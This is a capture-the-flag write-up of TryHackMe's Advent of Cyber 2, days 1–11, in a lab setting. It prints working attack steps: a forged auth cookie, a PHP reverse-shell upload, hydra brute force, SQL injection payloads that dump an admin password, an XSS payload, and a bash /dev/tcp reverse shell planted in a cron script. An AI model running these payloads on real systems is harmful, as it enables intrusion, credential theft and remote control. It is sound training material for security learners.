#Advent of Cyber 2


Event Homepage: [`https://tryhackme.com/christmas`](https://tryhackme.com/christmas)

## Checklist

- [x] [Day 1 - A Christmas Crisis](#day-1-a-christmas-crisis)
- [x] [Day 2 - The Elf Strikes Back](#day-2-the-elf-strikes-back)
- [x] [Day 3 - Christmas Chaos](#day-3-christmas-chaos)
- [x] [Day 4 - Santa's watching](#day-4-santas-watching)
- [x] [Day 5 - Someone stole Santa's gift list!](#day-5-someone-stole-santas-gift-list)
- [x] [Day 6 - Be careful with what you wish on a Christmas night](#day-6-be-careful-with-what-you-wish-on-a-christmas-night)
- [x] [Day 7 - The Grinch Really Did Steal Christmas](#day-7-the-grinch-really-did-steal-christmas)
- [x] [Day 8 - What's Under the Christmas Tree?](#day-8-whats-under-the-christmas-tree)
- [x] [Day 9 - Anyone can be Santa!](#day-9-anyone-can-be-santa)
- [x] [Day 10 - Don't be Elfish!](#day-10-dont-be-elfish)
- [x] [Day 11 - The Rogue Gnome](#day-11-the-rogue-gnome)
- [x] [Day 12 - Ready, set, elf.](#day-12-ready-set-elf)
- [x] [Day 13 - Coal for Christmas](#day-13-coal-for-christmas)
- [x] [Day 14 - Where's Rudolph?](#day-14-wheres-rudolph)
- [x] [Day 15 - There's a Python in my stocking!](#day-15-theres-a-python-in-my-stocking)
- [x] [Day 16 - Help! Where is Santa?](#day-16-help-where-is-santa)
- [x] [Day 17 - ReverseELFneering](#day-17-reverse-elfneering)
- [x] [Day 18 - The Bits of the Christmas](#day-18-the-bits-of-the-christmas)
- [x] [Day 19 - The Naughty or Nice List](#day-19-the-naughty-or-nice-list)
- [x] [Day 20 - PowershELlF to the rescue](#day-20-powershellf-to-the-rescue)
- [x] [Day 21 - Time for some ELForensics](#day-21-time-for-some-elforensics)
- [x] [Day 22 - Elf McEager becomes CyberElf](#Day-22-Elf-McEager-becomes-CyberElf)
- [x] [Day 23 - The Grinch strikes again!](#Day-23-The-Grinch-strikes-again)
- [x] [Day 24 - The Trial Before Christmas](#Day-24-The-Trial-Before-Christmas)

## Day 1: A Christmas Crisis

*Category: Web Exploitation*  
*Tags: HTTP, Cookies*  

> Understand how the web works and take back control of the Christmas Command Centre!

IP: `10.10.161.100`

### Basic enumeration

Firstly, I checked out the web server running on port 80 (HTTP).


I register for an account using the credentials `admin:bluemoon` and then log in with those credentials.


### What is the name of the the cookie used for authentication?

The name of the authentication cookie is: `auth`.

### What format is the value of this cookie encoded and what format is the data stored in?

The value of the auth cookie is: `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2261646d696e227d`.  

Putting the entire thing into [CyberChef](https://gchq.github.io/CyberChef/), we find that it is using `hexadecimal` to encode the string: `{"company":"The Best Festival Company", "username":"admin"}`.  

The data is stored in `JSON` format.  

### Bypassing the authentication

We can encode `{"company":"The Best Festival Company", "username":"santa"}` into hexadecimal to find the value of santa's authentication token.  

Value of the santa cookie: `7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d`.  

After setting the auth cookie to that string, we get access to the santa account and full control panel access.

### Getting the flag

I'm not sure why but I got a bit stuck here. Turns out, you just flick all the switches and you get the final flag.

Flag: `THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}`

### Making a [solve script](day01-christmas-crisis/solve.sh)

I noticed that the program sends a post request to `http://10.10.161.100/api/checkflag`. I noticed it also sent the cookie along with it. Therefore, I decided to send a POST request to the URL with the cookie and lo and behold, the flag! Here, I did it using curl in bash:  
```bash
curl -X POST -H "Cookie: auth=7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d" http://10.10.161.100/api/checkflag;
```
I have also included the shell script I wrote in the day01-christmas-crisis directory. 

## Day 2: The Elf Strikes Back

*Category: Web*  
*Tags: RCE*  

> Learn about basic file upload filter bypasses by performing a security audit on the new security management server!

IP: `10.10.119.58`

### Basic enumeration

Firstly, I checked the HTTP server running on port 80.



### What string of text needs added to the URL to get access to the upload page?

We can use the id given to us (`ODIzODI5MTNiYmYw`) to find an upload page at `http://10.10.119.58/?id=ODIzODI5MTNiYmYw`.


### What type of file is accepted by the site?

If we examine the source code, we find the following the the HTML code:
```HTML
<input type=file id="chooseFile" accept=".jpeg,.jpg,.png">
```
It turns out that this page only accepts image files.

### In which directory are the uploaded files stored?

After poking around in the address bar, I found that the uploads are kept in the `/uploads/` directory.  

We can find the uploaded files at `http://10.10.119.58/uploads/`.

### Getting a shell

Firstly, I wanted to find out what was running the web server. Therefore, I opened the network tab and reloaded the page to get the response headers.



We see that the server is running Apache 2.4.37 on CentOS powered by PHP. Therefore, I got a PHP reverse shell script from [Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).  

Be sure to change the following lines in the PHP file:
```php
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Then, I renamed the file to `php-reverse-shell.jpg.php` to circumvent the checks and uploaded the file.

**Establishing the reverse shell connection**

Since I set the PHP reverse shell to connect on port 4444, I set up a netcat listener on that port.

```sh
nc -lvnp 4444
```

Finally, I visited the following URL `http://10.10.119.58/uploads/` to run the PHP script.  

I was then greated by this beautiful message:

```
Listening on 0.0.0.0 4444
Connection received on 10.10.119.58 54002
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:25:23 up 41 min,  0 users,  load average: 0.00, 0.00, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (823): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$
```

Bingo! Now that we have a reverse shell, what next?

### What is the flag in /var/www/flag.txt?

First, I made sure I was successfully connected to the server:

```
sh-4.4$ whoami
whoami
apache
sh-4.4$ pwd
pwd
/
```

Now that we have a shell, we can read the flag:

```
sh-4.4$ cat /var/www/flag.txt
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```

And so with that, we get a nice message and the flag.

Flag: `THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}`

## Day 3: Christmas Chaos

*Category: Web Exploitation*  
*Tags: Authentication Bypass*  

> Hack the hackers and bypass a login page to gain admin privileges.

IP: `10.10.88.75`

### Basic Enumeration

As always, we check out the webpage running on port 80 first.



### Brute force attack

As suggested by the lesson on TryHackMe, we can use a dictionary attack to break the authentication and gain unauthorized access.  

First, I created the username and password wordlist using the dictionary provided ([username dictionary](day03-christmas-chaos/usernames.txt) and [password dictionary](day03-christmas-chaos/passwords.txt)).

Next, I monitored the network traffic in Firefox to see how the login request is being sent. Unsurprisingly, this web app sends a post request with the form data.


Then I used the following `hydra` command to find the username and password. `-L` is used to specify the username dictionary, `-P` is used to specify the password dictionary, http-post-form and the string is used to specify how to send the login request. `^USER^` and `^PASS^` are replaced by the username or password from the wordlist respectively. `incorrect` at the very end it is part error message when we use the wrong username password combo.

```sh
hydra -L usernames.txt -P passwords.txt 10.10.88.75 http-post-form "/login:username=^USER^&password=^PASS^:incorrect"
```

And sure enough, we find the username and password:

```
[80][http-post-form] host: 10.10.88.75   login: admin   password: 12345
```

Now that we have credentials, we can log in and get the flag!


Flag: `THM{885ffab980e049847516f9d8fe99ad1a}`

## Day 4: Santa's watching

*Category: Web Exploitation*  
*Tags: Authorization Bypass*  

> Exploit Santa's login form and obtain admin credentials to save Santa's nice list!

IP: `10.10.252.228`

Assets:
- Wordlist for Gobuster ([danielmiessler/SecLists/Discovery/Web-Content/big.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/big.txt))
- Wordlist for wfuzz ([available for download](https://assets.tryhackme.com/additional/cmn-aoc2020/day-4/wordlist)) (also in the day04-santas-watching directory)

### Given the URL `http://shibes.xyz/api.php`, what would the entire wfuzz command look like to query the "breed" parameter using the wordlist "big.txt" (assume that "big.txt" is in your current directory)

`wfuzz -z file,big.txt http://shibes.xyz/api.php?breed=FUZZ`

### Basic Enumeration

By know, you probably know the drill. Step 1: visit the website running on port 80.


Huh, there seems to be not much of interest on the page or in the source code for the page.

### Finding the API directory using Gobuster

We can use gobuster to find hidden directories:

```sh
gobuster -u http://10.10.252.228/ -w day04-santas-watching/big.txt -x php,txt,html
```

And we find the following:

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.252.228/
[+] Threads      : 10
[+] Wordlist     : day04-santas-watching/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : html,php,txt
[+] Timeout      : 10s
=====================================================
2020/12/04 15:24:55 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htpasswd.html (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.html (Status: 403)
/LICENSE (Status: 200)
/api (Status: 301)
```

If we visit `http://10.10.252.228/api` we can find the empty `site-log.php` file.

### Fuzz the date parameter on the file you found in the API directory. What is the flag displayed in the correct post?

We can use the following wfuzz command to fuzz the date get parameter:

```sh
wfuzz -c --hh 0 -z file,day04-santas-watching/wordlist http://10.10.252.228/api/site-log.php?date=FUZZ
```

After running the command, we get the following output:

```
Target: http://10.10.252.228/api/site-log.php?date=FUZZ
Total requests: 63

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                     
===================================================================

000000026:   200        0 L      1 W      13 Ch       "20201125"                                                                                                                                                  

Total time: 3.005774
Processed Requests: 63
Filtered Requests: 62
Requests/sec.: 20.95965
```

### Getting the flag

Now that we know where to find the flag, we can simply use cURL to actually get the flag:

```
curl http://10.10.252.228/api/site-log.php?date=20201125
```

Flag: `THM{D4t3_AP1}`

## Day 5: Someone stole Santa's gift list!

*Category: Web Exploitation*  
*Tags: SQL injection, PHP*  

> Learn to detect and exploit one of the most dangerous web vulnerabilities!

IP: `10.10.220.236`  
Port: `8000`

### Without using directory brute forcing, what's Santa's secret login panel?

Using the hint, we know that the panel is located at `/santapanel`


### Bypass the login using SQL injection

Visiting `10.10.220.236:8000/santapanel`, we see there is a login page which I assumed to be vulnerable to SQLi. Therefore, I tried the following payload and sure enough, I was able to gain access to the santapanel

```
' OR 1==1;--
```

The full SQL command would then look something like this:

```sql
SELECT * FROM some_table WHERE username='' OR 1==1;-- AND password='';
```

As you can see, every entry in this tabble will be returned even if the username doesn't match since 1==1 always evaluates to true.



### How many entries are there in the gift database?

We can supply a wildcard character (`%`) to select every entry into the database. If we count them, we see that we have 22 entries.

We also see that `Paul` asked for `github ownership`.

### Finding the flag

First we need to find the table names and their schema. We do so using the following SQLi payload to union the tbl_name and sql fields from the sqlite_master table:

```
%' UNION SELECT tbl_name, sql FROM sqlite_master;--
```
Which expands to the following:
```sql
SELECT gift, child FROM some_table WHERE gift LIKE '%' UNION SELECT tbl_name, sql FROM sqlite_master;--;
```

We get the following result:

```
hidden_table | CREATE TABLE hidden_table (flag text)
sequels | CREATE TABLE sequels (title text, kid text, age integer)
users | CREATE TABLE users (username text, password text)
```

To get the flag, we can use the following SQLi payload

```
%' UNION SELECT 1, flag FROM hidden_table;--
```
Which expands to the following:
```sql
SELECT gift, child FROM some_table WHERE gift LIKE '%' UNION SELECT 1, flag FROM hidden_table;--;
```

Then we find the flag in the table.

Flag: `thmfox{All_I_Want_for_Christmas_Is_You}`

### Getting the admin password

Once again, we use a SQLi payload.

```
%' UNION SELECT username, password FROM users;--
```

In the table we can find the admin's password.

```
admin:EhCNSWzzFP6sc7gB
```

## Day 6: Be careful with what you wish on a Christmas night

*Category: Web Exploitation*  
*Tags: JavaScript*  

> Get familiar with compromising user interactions with vulnerable applications by executing custom javascript code.

IP: `10.10.157.100`  
Port: `5000`

### Finding the cross-site scripting


#### Stored cross-site scripting

Found in the `enter a wish here` box.



#### Reflected cross-site scripting

Found in the `search query` box.


#### How to exploit?

Type the following payload into either of them to see a cross-site scripting pop-up:

```html
<script>alert("XSS");</script>
```

### Getting the flag

Well unfortunately, there is no flag for this challenge. So here's a fake flag that I made!


## Day 7: The Grinch Really Did Steal Christmas

> Understand a few of the technologies that power the internet! Use this knowledge to track the activity of the Grinch who stole christmas!

*Category: Networking*  
*Tags: Wireshark, Packet Analysis*  

File: [aoc-pcaps.zip](day07-the-grinch-really-did-steal-christmas/aoc.pcaps.zip)  
Prerequesite Software: Wireshark  

### Unzipping

Before we begin, we must unzip the file as follows:

```sh
cd day07-the-grinch-really-did-steal-christmas/
unzip aoc-pcaps.zip
```

And we see that there are 3 `.pcap` files:

```
Archive:  aoc-pcaps.zip
  inflating: pcap1.pcap              
  inflating: pcap2.pcap              
  inflating: pcap3.pcap 
```

### pcap1.pcap

#### Open "pcap1.pcap" in Wireshark. What is the IP address that initiates an ICMP/ping?

We open pcap1.pcap in Wireshark and look for the source IP of the ping request.


We see that `10.11.3.2` is pinging `10.10.15.52`.

#### Filtering to see HTTP GET requests

The `http.request.method == get` filter can be used to only see the HTTP GET requests.  

We can use this filter (`http.request.method == GET && ip.src == 10.10.67.199`) to further narrow it down as needed.  

Sifting through the packets, we can see that `10.10.67.199` read `reindeer-of-the-week`.  


### pcap2.pcap

#### Find the password used for FTP

We filter the traffic by using the protocol `FTP`.  


Then we can follow the TCP stream to find the password.  


The leaked password is: `plaintext_password_fiasco`  

#### What is the name of the protocol that is encrypted?

Looking at the wireshark, we can see the SSH protocol which is encrypted.



### pcap3.pcap

Looking through wireshark, we see a lot of SSH and HTTP traffic. Since SSH is encrypted, the HTTP is more interesting. We see that there is downloading of files specifically a `christmas.zip` file, so we extract that and save it onto out machine for further investigation.


Then we can unzip `christmas.zip`. We find the following files:

```
Archive:  christmas.zip
  inflating: AoC-2020.png            
  inflating: christmas-tree.jpg      
  inflating: elf_mcskidy_wishlist.txt  
  inflating: Operation Artic Storm.pdf  
  inflating: selfie.jpg              
  inflating: tryhackme_logo_full.svg  
```

We can read Elf McSkidy's wishlist using the following command:

```
cat day07-the-grinch-really-did-steal-christmas/christmas/elf_mcskidy_wishlist.txt
```

And we see the following:

```
Wish list for Elf McSkidy
-------------------------
Budget: £100

x3 Hak 5 Pineapples
x1 Rubber ducky (to replace Elf McEager)
```

## Day 8: What's Under the Christmas Tree?

*Category: Networking*  
*Tags: Nmap*  

> Practice the most fundamental stage of penetration testing: information gathering, using industry standard tools/techniques.

IP: `10.10.2.45`

### Running the Nmap scan

We run nmap with the following command:

```sh
nmap -sC -sV -A -O -oN day08-whats-under-the-christmas-tree/nmap.log 10.10.2.45
```

And we get the following results:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-08 13:15 EST
Nmap scan report for tbfc.blog (10.10.2.45)
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Hugo 0.78.2
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: TBFC&#39;s Internal Blog
2222/tcp open  ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cf:c9:99:d0:5c:09:27:cd:a1:a8:1b:c2:b1:d5:ef:a6 (RSA)
|   256 4c:d4:f9:20:6b:ce:fc:62:99:54:7d:c2:b4:b2:f2:b2 (ECDSA)
|_  256 d0:e6:72:18:b5:20:89:75:d5:69:74:ac:cc:b8:3b:9b (ED25519)
3389/tcp open  ms-wbt-server xrdp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.52 seconds
```

### What ports are open?

- Port 80 for HTTP
- Port 2222 for SSH
- Port 3389 for ms-wbt-server

### What Linux Distribution is the box?

`Ubuntu`

### What is the "HTTP-TITLE" for the webserver

`http-title: TBFC&#39;s Internal Blog`

## Day 9: Anyone can be Santa!

*Category: Networking*  
*Tags: FTP*

>Discover a common misconfiguration on file transfer servers, and understand how it may be abused.

IP: `10.10.112.57`

### Connecting to the FTP server and basic enumeration

In a Linux Terminal, I used the `ftp` command and connected to the FTP server as `anonymous`.

```
ftp 10.10.112.57
```

Now that we are in, let's see what files we can find...

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 backups
drwxr-xr-x    2 0        0            4096 Nov 16 15:05 elf_workshops
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 human_resources
drwxrwxrwx    2 65534    65534        4096 Nov 16 19:35 public
```

`backups`, `elf_workshops` and `human_resources` appear to be empty. However, let's investigate `public` further.

```
ftp> cd public
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 111      113           341 Nov 16 19:34 backup.sh
-rw-rw-rw-    1 111      113            24 Nov 16 19:35 shoppinglist.txt
226 Directory send OK.
```

Interesting, let's download these two files to examine them further...

```
ftp> get backup.sh
local: backup.sh remote: backup.sh
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.sh (341 bytes).
226 Transfer complete.
341 bytes received in 0.00 secs (481.9216 kB/s)
ftp> get shoppinglist.txt
local: shoppinglist.txt remote: shoppinglist.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for shoppinglist.txt (24 bytes).
226 Transfer complete.
24 bytes received in 0.00 secs (107.0206 kB/s)
```

Success!

### shoppinglist.txt

It turns out, `shoppinglist.txt` isn't all that interesting... All we learn is that Santa has `The Polar Express Movie` on his shopping list.

### backup.sh

`backup.sh`? More like `backdoor.sh`...  

This bash shell script seams to be a cron job (something that runs automatically at a set time or time interval on a Linux system). Let's modify it to set up a reverse shell! First, I set up a netcat listener of port 4444 by running `nc -lvnp 4444`. Then, I added the following line to `backup.sh` before uploading it to the FTP server. (note: `10.6.23.34` is the IP of my attack machine)

```sh
# Added this line
bash -i >& /dev/tcp/10.6.23.34/4444 0>&1
```

### Becoming root and getting the flag!

First, I uploaded the `backup.sh` file with the payload from the previous section using FTP:

```
ftp> put backup.sh 
local: backup.sh remote: backup.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
381 bytes sent in 0.00 secs (5.7675 MB/s)
```

Sure enough, I got the reverse shell within seconds:

```
Listening on 0.0.0.0 4444
Connection received on 10.10.112.57 60270
bash: cannot set terminal process group (1525): Inappropriate ioctl for device
bash: no job control in this shell
root@tbfc-ftp-01:~# whoami
whoami
root
```

Now, that we are root, we can read `/root/flag.txt` and get the flag!

```
root@tbfc-ftp-01:~# cat /root/flag.txt
cat /root/flag.txt
THM{even_you_can_be_santa}
```

Flag: `THM{even_you_can_be_santa}`

## Day 10: Don't be Elfish!

*Category: Networking*  
*Tags: SMB*

> Get hands-on with Samba, a protocol used for sharing resources like files and printers with other devices.

IP: `10.10.111.123`

### Getting Enum4Linux

[Click here to view `enum4linux.pl` on GitHub](https://github.com/CiscoCXSecurity/enum4linux/blob/master/enum4linux.pl)  

(It can also be found on the THM Attackbox here: `/root/Desktop/Tools/Miscellaneous/enum4linux.pl`)

### Basic Enumeration

We can begin by looking for users and shares on the box using this command:

```
./enum4linux.pl -U -S 10.10.111.123
```

And we find the following 3 users:

```
 ============================== 
|    Users on 10.10.111.123    |
 ============================== 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: elfmcskidy       Name:   Desc: 
index: 0x2 RID: 0x3ea acb: 0x00000010 Account: elfmceager       Name: elfmceager        Desc: 
index: 0x3 RID: 0x3e9 acb: 0x00000010 Account: elfmcelferson    Name:   Desc: 

user:[elfmcskidy] rid:[0x3e8]
user:[elfmceager] rid:[0x3ea]
user:[elfmcelferson] rid:[0x3e9]
```

We also find the following 4 shares:

```
 ========================================== 
|    Share Enumeration on 10.10.111.123    |
 ========================================== 

        Sharename       Type      Comment
        ---------       ----      -------
        tbfc-hr         Disk      tbfc-hr
        tbfc-it         Disk      tbfc-it
        tbfc-santa      Disk      tbfc-santa
        IPC$            IPC       IPC Service (tbfc-smb server (Samba, Ubuntu))
```

### Connecting to the Samba server

We can use smbclient to connect to the Samba servers. After some testing, I noticed that the tbfc-santa share doesn't require a password to login as root.

```
smbclient -U root //10.10.111.123/tbfc-santa
```

After logging in, we find the `jingle-tunes` directory and the `note_from_mcskidy.txt` file.

```
smb: \> ls
  .                                   D        0  Wed Nov 11 21:12:07 2020
  ..                                  D        0  Wed Nov 11 20:32:21 2020
  jingle-tunes                        D        0  Wed Nov 11 21:10:41 2020
  note_from_mcskidy.txt               N      143  Wed Nov 11 21:12:07 2020

                10252564 blocks of size 1024. 5200032 blocks available
```

There is nothing else for us to look at. This is also the end of this challenge.

## Day 11: The Rogue Gnome

*Category: Networking*  
*Tags: Privilege Escalation, Linux*

> We've got initial access, but now what? Learn some of the common linux privilege escalation techniques used to gain permissions to things that we shouldn't...

IP: `10.10.43.93`

### Basic Questions

#### What type of privilege escalation involves using a user account to execute commands as an administrator?

`vertical`

#### What is the name of the file that contains a list of users who are a part of the sudo group?

`sudoers`

### Connecting via SSH

For this challenge, we assume we have found a vulnerability to get a shell on the box. We can simulate this using an SSH connection with the credentials: `cmnatic:aoc2020`.

```
ssh cmnatic@10.10.43.93
```

After connecting, we are greated with a bash shell:

```
Last login: Fri Dec 11 18:17:18 2020 from 10.6.23.34
-bash-4.4$ whoami
cmnatic
```

### Privilege Escalation

Unfortunately (and unsurprisingly), the account we are given doesn't have root privileges.  

As suggested by THM, we can probably find a SUID binary to exploit. We can look for them by running:

```
find / -perm -u=s -type f 2>/dev/null
```

And we get the following output (note: I have ommited all of the snap files):

```
-bash-4.4$ find / -perm -u=s -type f 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/bin/fusermount
/bin/bash
/bin/ping
/usr/bin/newgidmap
/usr/bin/at
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
```

OMG, `/bin/bash` is a SUID binary?!?! Ok, this looks really easy! I check out the [GTFObins](https://gtfobins.github.io/gtfobins/bash/) entry for bash and find out how to run it using SUID. Turns out all I need to type is `/bin/bash -p`. I run that command and boom, I have a shell as root!

```
bash-4.4# whoami
root
```

***Another way to find the misconfigured SUID binaries would be to use [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)***

### Getting the flag

Now that I am root, getting the flag is very straight forward. All we need to do is `cat` the flag!

```
cat /root/flag.txt
```

Flag: `thm{2fb10afe933296592}`

## Day 12: Ready, set, elf!

*Category: Networking*  
*Tags: Public Exploits*

